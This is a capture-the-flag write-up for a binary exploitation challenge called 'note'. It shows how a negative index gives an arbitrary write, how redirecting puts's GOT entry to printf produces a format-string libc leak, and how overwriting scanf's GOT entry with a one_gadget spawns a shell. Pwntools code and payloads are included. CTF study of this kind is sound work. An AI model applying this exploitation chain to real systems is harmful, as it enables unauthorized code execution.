



# Note

We were given [this binary](./Sources/note) and theses files to run it :

 - [Dockerfile](./Sources/Dockerfile)
 - [docker-compose.yml](./Sources/docker-compose.yml)
 - [docker-entrypoint.sh](./Sources/docker-entrypoint.sh)

First things first, we can just run this container and get it's [libc](./Sources/libc.so.6) and [ld](./Sources/ld-linux-x86-64.so.2). After running `pwninit` we get our [patched binary](./Sources/note_patched) using the same libraries as the server.

We can also see that most of the securities are enabled on that binary :

```console
$ checksec --file=./note
[*] '/home/geoffrey/Documents/Notes/CTF/Hack_in/note/note'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

With this out of the way, let's check out what the program does :



We can add notes, view their contents, and exit. Looking at the pseudo C we get with Ghidra, we can see that these notes are written on the bss in this function :

```C
void add(void)
{
  long in_FS_OFFSET;
  uint user_choice;
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  getn(&user_choice);
  if (0x10 < (int)user_choice) {
     call_exit(1);
  }
  printf("value: ");
  read(0,notes + (long)(int)user_choice * 0x10,0xf);
  printf("note added on %d successfully!\n",(ulong)user_choice);
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
     __stack_chk_fail();
  }
  return;
}
```

`getn()` is only using `scanf` to get an integer, and since there's no check on wheter `user_choice` is negative, there is an interger underflow in this line :

```C
if (0x10 < (int)user_choice) {
```

This gives us an arbitrary write with this `read()` call:

```C
read(0,notes + (long)(int)user_choice * 0x10,0xf);
```

For example if I create a note with index `-10`, I'll be writing at address `notes - 160` as we can see with GDB:

```console
=== Menu ===
1. Add
2. View
0. Exit
> 1
idx: -10
value: 
```



Since the binary has Partial RELRO, the got is writable, this vulnerability immediatly SCREAMS got overwrite. If you don't know what the fuck I'm talking about, [this](https://ir0nstone.gitbook.io/notes/binexp/stack/aslr/plt_and_got) might help you out.

Our problem being, pie and aslr are activated. So if we want to overwrite the got with a one gadget we first need a leak to calculate it's address. I didn't find another vulnerability to get a leak, so at first I thought about bruteforcing which sadly couldn't work. Since I can overwrite the got, maybe if I overwrite some other function's got with `puts` it might leak me something. It didn't 🗿

At that point, not seeing any other options I chose to stop in shame and go do some reverse.


But later on, reinvigorated by a quick flag, I decided to take another look at it. And this time I thought : I tried to overwrite other functions with `puts`, but what about `printf` ? And I saw this line in `view()` (the function letting us view the note's content) :

```C
puts(notes + (ulong)index * 0x10);
```

We can write whatever we want over `notes`, so if `puts` actually calls `printf` this gets us a format string.


First thing first, let's check wheter it's feasable using GDB :



Since `puts`'s address isn't resolved until we call it in `view()`, it doesn't point to the libc yet. And as we can see above, we only have to overwrite the least significant byte to `0xf0` to make it point to `printf`'s plt. Let's make it happen with a script :

```python
def add(index:bytes, value:bytes):
    p.sendline(b"1")
    p.recvuntil(b"idx: ")
    p.sendline(index)
    p.recvuntil(b"value: ")
    p.send(value)
    p.recvuntil(b">")

def view(index:bytes):
    p.sendline(b"2")
    p.recvuntil(b"idx: ")
    p.sendline(index)
    data = p.recvuntil(b"===").replace(b"===", b"").strip()
    p.recvuntil(b">")
    return data
```

First we can code these functions to interact with the program , and now we can overwite `puts`'s got quite simply this way :

```python
add(b"-10", b"\xf0")
```

We know it's `-10` simply by debugging and calculating the offset. For example, `0x55cb0f7f6000` being the address of `notes` and `0x55cb0f7f60a0` the address of `puts`'s got :

```python
>>> 0x55cb0f7f6000-0x55cb0f7f60a0
-160
>>> _/0x10
-10.0
```

As you can see, we now have a format string when viewing our notes :

```console
=== Menu ===
1. Add
2. View
0. Exit
> 1
idx: 0
value: %17$p
note added on 0 successfully!
=== Menu ===
1. Add
2. View
0. Exit
> 2
idx: 0
0x7f95cfe2a1ca
```

By debugging we can find out that the payload `%17$p` leaks us the libc. So we can automate the leak this way :

```python
add(b"0", b"%17$p")
leak = view(b"0")
libc.address = int(leak, 16) - (libc.sym["__libc_start_call_main"] + 122)
```

Now, we need to find a one gadget which constraint's won't be an issue. Took me some time, but I found this one that could be executed during the `scanf` call in the `menu()` function :

```
0xef52b execve("/bin/sh", rbp-0x50, [rbp-0x78])
constraints:
  address rbp-0x50 is writable
  rax == NULL || {"/bin/sh", rax, NULL} is a valid argv
  [[rbp-0x78]] == NULL || [rbp-0x78] == NULL || [rbp-0x78] is a valid envp
```

And finally, we just have to overwrite `scanf`'s got with that one gadget:

```python
one_gadget = p64(libc.address + 0xef52b)
add(b"-7", b"A"*8+one_gadget[:7])
```

Putting it all together in [this script](./Sources/solve.py) we get the flag :

```console
$ ./solve.py -r 146.148.28.103 32866
$ cat flag.txt
HNx04{83b55ee77f37cac314fe45d1f45e33f4}
```
